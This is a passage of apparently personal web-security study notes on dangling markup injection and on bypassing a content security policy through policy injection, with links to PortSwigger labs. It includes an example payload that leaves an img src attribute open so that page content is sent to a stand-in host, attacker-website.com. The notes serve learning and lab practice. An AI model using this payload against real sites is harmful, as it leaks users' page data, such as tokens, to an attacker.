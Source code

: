 {% tab title="Dangling Markup Injection" %}
* Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible
* Suppose also that the application does not filter or escape the `>` or `"` characters. An attacker can use the following syntax to break out of the quoted attribute value and the enclosing tag, and return to an HTML context:\
  &#x20;`">`
* In this situation, an attacker would naturally attempt to perform XSS. But suppose that a regular XSS attack is not possible, due to input filters, content security policy, or other obstacles. Here, it might still be possible to deliver a dangling markup injection attack using a payload like the following:\
  &#x20;`"><img src='//attacker-website.com?`
* This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the `src` attribute, which is left "dangling". When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. Any non-alphanumeric characters, including newlines, will be URL-encoded
* Bypassing CSP with Policy Injection - You may encounter a website that reflects input into the actual policy, most likely in a `report-uri` directive. If the site reflects a parameter that you can control, you can inject a semicolon to add your own CSP directives. Usually, this `report-uri` directive is the final one in the list. This means you will need to overwrite existing directives in order to exploit this vulnerability and bypass the policy.
* Normally, it's not possible to overwrite an existing `script-src` directive. However, Chrome recently introduced the `script-src-elem` directive, which allows you to control `script` elements, but not events. Crucially, this new directive allows you to overwrite existing `script-src` directives. Using this knowledge, you should be able to solve the following lab.
* [https://portswigger.net/web-security/cross-site-scripting/dangling-markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)
* [https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-with-dangling-markup-attack](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-with-dangling-markup-attack)
* [https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)
{% endtab %}
{% endtabs %}
